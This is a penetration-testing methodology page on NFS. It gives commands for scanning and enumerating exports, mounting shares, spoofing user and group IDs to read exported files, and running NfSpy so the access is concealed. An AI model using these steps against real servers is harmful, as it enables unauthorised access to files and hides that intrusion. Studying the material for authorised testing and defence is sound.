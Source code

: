 # Network File System - Methodology

### Overview

The Network File System (NFS) is a distributed file system protocol, built on
Remote Procedure Call (RPC) and used to share folders and files between
computers.

NFS is often used with Unix and Unix-like operating systems. For NFS before
version 4, the user id and group id of the client system are sent in each RPC
call, and the permissions these IDs have on the file being accessed are checked
on the server.

### Network scan and mount points enumeration

The following tools can be used to scan the network for NFS services and
enumerate their exposed mount points:

```
nmap -v -p 111,2049 -sV --script=nfs-showmount.nse -oA nmap_nfs <RANGE | CIDR | HOSTNAME | IP>
msf> use auxiliary/scanner/nfs/nfsmount

showmount --exports <HOSTNAME | IP>
```

### Mount shares

The Linux utility `mount` can be used to mount a NFS share:

```
mkdir /tmp/NFS_SHARE

mount -t nfs <HOSTNAME | IP>:<SHARE> /tmp/NFS_SHARE

# Confirm the mounted share
df -k | grep NFS_SHARE
```

If the following error message is being returned by the `mount` utility, the
`nfs-common` package must be locally installed on the client system.

```
mount: /tmp/NFS_SHARE: bad option; for several filesystems (e.g. nfs, cifs) you might need a /sbin/mount.<type> helper program.
```

### ID spoofing

For NFS before version 4, the server files access permissions are based on the
client system current user id and group id. `UID` and `GUID` can thus be
spoofed to access any directories and files exposed on the NFS export.

The server may use the `root_squash` mechanism that will make any requests
using the `UID` or `GID` 0 (root) to be treated like the nobody user.

```
# Inside mounted folder
ls -lah
-> drwxr-xr--  3 <UID> <GID>  [...] dir_or_file

useradd -u <UID> tmp_user
su tmp_user

# OR
groupadd -r -g <GID> tmp_group
useradd -G tmp_group <USERNAME>
```

The `NfSpy` python script can be used to automate the process, with the
advantage of hiding the access by immediately unmounting the share on the
server but keeping the file handle:

```
nfspy -o server=<HOSTNAME | IP>:<SHARE>,hide,allow_other,ro,intr /tmp/NFS_SHARE
```

### Connected users enumeration

The Linux utility `showmount` can be used to retrieve the active and currently
mounted shares and theirs clients:

```
showmount --all <HOSTNAME | IP>
```
